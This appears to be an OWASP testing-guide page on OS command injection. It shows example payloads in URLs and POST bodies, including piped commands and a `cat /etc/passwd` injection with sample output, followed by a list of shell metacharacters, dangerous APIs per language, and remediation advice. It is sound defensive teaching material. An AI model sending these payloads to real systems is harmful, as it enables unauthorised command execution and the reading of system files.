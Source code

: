 # Testing for Command Injection

## Summary

This article describes how to test an application for OS command injection. The tester will try to inject an OS command through an HTTP request to the application.

OS command injection is a technique used via a web interface in order to execute OS commands on a web server. The user supplies operating system commands through a web interface in order to execute OS commands. Any web interface that is not properly sanitized is subject to this exploit. With the ability to execute OS commands, the user can upload malicious programs or even obtain passwords. OS command injection is preventable when security is emphasized during the design and development of applications.

## How to Test

When viewing a file in a web application, the file name is often shown in the URL. Perl allows piping data from a process into an open statement. The user can simply append the Pipe symbol `|` onto the end of the file name.

Example URL before alteration:

`http://sensitive/cgi-bin/userData.pl?doc=user1.txt`

Example URL modified:

`http://sensitive/cgi-bin/userData.pl?doc=/bin/ls|`

This will execute the command `/bin/ls`.

Appending a semicolon to the end of a URL for a .PHP page followed by an operating system command, will execute the command. `%3B` is url encoded and decodes to semicolon

Example:

`http://sensitive/something.php?dir=%3Bcat%20/etc/passwd`

### Example

Consider the case of an application that contains a set of documents that you can browse from the Internet. If you fire up WebScarab, you can obtain a POST HTTP like the following:

```txt
POST http://www.example.com/public/doc HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; it; rv:1.8.1) Gecko/20061010 FireFox/2.0
Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5
Accept-Language: it-it,it;q=0.8,en-us;q=0.5,en;q=0.3
Accept-Encoding: gzip,deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Keep-Alive: 300
Proxy-Connection: keep-alive
Referer: http://127.0.0.1/WebGoat/attack?Screen=20
Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
Content-Type: application/x-www-form-urlencoded
Content-length: 33

Doc=Doc1.pdf
```

In this post request, we notice how the application retrieves the public documentation. Now we can test if it is possible to add an operating system command to inject in the POST HTTP. Try the following:

```txt
POST http://www.example.com/public/doc HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; it; rv:1.8.1) Gecko/20061010 FireFox/2.0
Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5
Accept-Language: it-it,it;q=0.8,en-us;q=0.5,en;q=0.3
Accept-Encoding: gzip,deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Keep-Alive: 300
Proxy-Connection: keep-alive
Referer: http://127.0.0.1/WebGoat/attack?Screen=20
Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
Content-Type: application/x-www-form-urlencoded
Content-length: 33

Doc=Doc1.pdf+|+Dir c:\
```

If the application doesn't validate the request, we can obtain the following result:

```txt
    Exec Results for 'cmd.exe /c type "C:\httpd\public\doc\"Doc=Doc1.pdf+|+Dir c:\'
    Output...
    Il volume nell'unità C non ha etichetta.
    Numero di serie Del volume: 8E3F-4B61
    Directory of c:\
     18/10/2006 00:27 2,675 Dir_Prog.txt
     18/10/2006 00:28 3,887 Dir_ProgFile.txt
     16/11/2006 10:43
        Doc
        11/11/2006 17:25
           Documents and Settings
           25/10/2006 03:11
              I386
              14/11/2006 18:51
             h4ck3r
             30/09/2005 21:40 25,934
            OWASP1.JPG
            03/11/2006 18:29
                Prog
                18/11/2006 11:20
                    Program Files
                    16/11/2006 21:12
                        Software
                        24/10/2006 18:25
                            Setup
                            24/10/2006 23:37
                                Technologies
                                18/11/2006 11:14
                                3 File 32,496 byte
                                13 Directory 6,921,269,248 byte disponibili
                                Return code: 0
```

In this case, we have successfully performed an OS injection attack.

## Special Characters for Comand Injection

The following special character can be used for command injection such as `|` `;` `&` `$` `>` `<` `'` `!`

- `cmd1|cmd2` : Uses of `|` will make command 2 to be executed weather command 1 execution is successful or not.
- `cmd1;cmd2` : Uses of `;` will make command 2 to be executed weather command 1 execution is successful or not.
- `cmd1||cmd2` : Command 2 will only be executed if command 1 execution fails.
- `cmd1&&cmd2` : Command 2 will only be executed if command 1 execution succeeds.
- `$(cmd)` : For example, `echo $(whoami)` or `$(touch test.sh; echo 'ls' > test.sh)`
- `cmd` : It's used to execute specific command. For example, `whoami`
- `>(cmd)`: `>(ls)`
- `<(cmd)`: `<(ls)`

## Code Review Dangerous API

Be aware of the uses of following API as it may introduce the command injeciton risks.

### Java

- `Runtime.exec()`

### C/C++

- `system`
- `exec`
- `ShellExecute`

### Python

- `exec`
- `eval`
- `os.system`
- `os.popen`
- `subprocess.popen`
- `subprocess.call`

### PHP

- `system`
- `shell_exec`
- `exec`
- `proc_open`
- `eval`

### Remediation

#### Sanitization

The URL and form data needs to be sanitized for invalid characters. A “blacklist” of characters is an option but it may be difficult to think of all of the characters to validate against. Also there may be some that were not discovered as of yet. A “white list” containing only allowable characters or command list should be created to validate the user input. Characters that were missed, as well as undiscovered threats, should be eliminated by this list.

General blacklist to be included for commannd injection can be `|` `;` `&` `$` `>` `<` `'` `\` `!` `>>` `#`

Escape or filter special characters for windows,   `(` `)` `<` `>` `&` `*` `‘` `|` `=` `?` `;` `[` `]` `^` `~` `!` `.` `”` `%` `@` `/` `\` `:` `+` `,`  ``` ` ```
Escape or filter special characters for Linux, `{` `}` `(` `)` `>` `<` `&` `*` `‘` `|` `=` `?` `;` `[` `]` `$` `–` `#` `~` `!` `.` `”` `%`  `/` `\` `:` `+` `,` ``` ` ```

### Permissions

The web application and its components should be running under strict permissions that do not allow operating system command execution. Try to verify all these informations to test from a Gray Box point of view

## Tools

- OWASP [WebGoat](https://www.owasp.org/index.php/OWASP_WebGoat_Project)
- [Commix](https://github.com/commixproject/commix)

## References

- [Penetration Testing for Web Applications (Part Two)](https://www.symantec.com/connect/articles/penetration-testing-web-applications-part-two)
- [OS Commanding](http://projects.webappsec.org/w/page/13246950/OS%20Commanding)
- [CWE-78: Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')](https://cwe.mitre.org/data/definitions/78.html)
- [ENV33-C. Do not call system()](https://www.securecoding.cert.org/confluence/pages/viewpage.action?pageId=2130132)
